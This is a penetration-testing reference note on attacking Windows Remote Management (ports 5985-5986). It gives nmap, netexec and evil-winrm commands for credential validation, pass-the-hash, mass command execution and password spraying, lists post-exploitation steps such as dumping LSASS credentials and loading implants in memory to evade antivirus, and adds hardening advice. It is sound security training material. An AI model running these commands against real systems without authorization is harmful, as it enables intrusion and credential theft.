

# 22 - WinRM (Ports 5985-5986) Pentesting

## 1. Executive Summary

Windows Remote Management is Microsoft's implementation of the WS-Management protocol — remote PowerShell and command execution over HTTP. It listens on **TCP 5985 (HTTP)** and **5986 (HTTPS)**. Where SMB/psexec are noisy, WinRM is the clean, "intended" remote-admin path: given valid credentials (or just an NTLM hash) for a user in the **Remote Management Users** group or local admins, `evil-winrm` drops you into a full PowerShell session. It is a primary lateral-movement and post-exploitation channel in Active Directory.

## 2. Protocol Overview & Architecture

WinRM transports SOAP/WS-Man messages over HTTP(S). Authentication supports Negotiate (NTLM/Kerberos), Basic, and certificate. Because it accepts NTLM, it natively supports **pass-the-hash**. Access requires membership in `Remote Management Users` (or admin) and the WinRM service running (default on Windows Server; off on most client OS until enabled).

## 3. Enumeration & Footprinting

```bash
# Is WinRM up?
nmap -p5985,5986 -sV <IP>
nxc winrm <IP>

# Validate credentials / hash against WinRM
nxc winrm <IP> -u user -p pass
nxc winrm <IP> -u user -H <NTLM_HASH>
```
`(Pwn3d!)` from netexec means that account can execute commands via WinRM.

## 4. Exploitation Deep Dive

### 4.1 Interactive Shell with evil-winrm
```bash
evil-winrm -i <IP> -u Administrator -p 'Passw0rd!'
# Pass-the-hash
evil-winrm -i <IP> -u Administrator -H <NTLM_HASH>
# Kerberos
evil-winrm -i <IP> -u user -r CORP.LOCAL
```
`evil-winrm` adds handy features: `upload`/`download`, in-memory `Invoke-Binary`, and AMSI bypass helpers.

### 4.2 Command Execution at Scale
```bash
nxc winrm <IP> -u user -p pass -x "whoami /all"
nxc winrm targets.txt -u user -H <hash> -x "ipconfig"
```

### 4.3 Credential Brute Force (careful)
```bash
nxc winrm <IP> -u users.txt -p pass.txt --continue-on-success
```
Brute forcing WinRM can lock domain accounts — spray slowly.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Full PowerShell → dump credentials (LSASS, SAM), enumerate the domain, run BloodHound collectors.
- Upload implants in-memory to evade disk AV.
- Reuse harvested hashes for further WinRM/SMB lateral movement.

## 7. Defense & Hardening
1. Restrict `Remote Management Users`; use HTTPS (5986) with valid certs, disable Basic auth.
2. Disable WinRM where not needed; restrict source IPs (IPsec / firewall).
3. LAPS + tiered admin to limit pass-the-hash reuse.
4. Monitor WinRM logons (Event ID 4624 logon type 3 to WinRM) and PowerShell logging.

## 8. Chaining Opportunities
- Hashes from SMB/LSASS → pass-the-hash into WinRM.
- WinRM PowerShell → AD escalation. See **[[09 - Kerberos (Port 88) Pentesting]]**.

## 9. Related Notes
- [[20 - RDP (Port 3389) Pentesting]]
- [[06 - SMB (Ports 139-445) Pentesting]]
- [[83 - OMI (Port 5985-5986) Pentesting]]

## 10. Tools
`evil-winrm`, `netexec winrm`, `nmap`, `impacket` (Kerberos), `crackmapexec`.
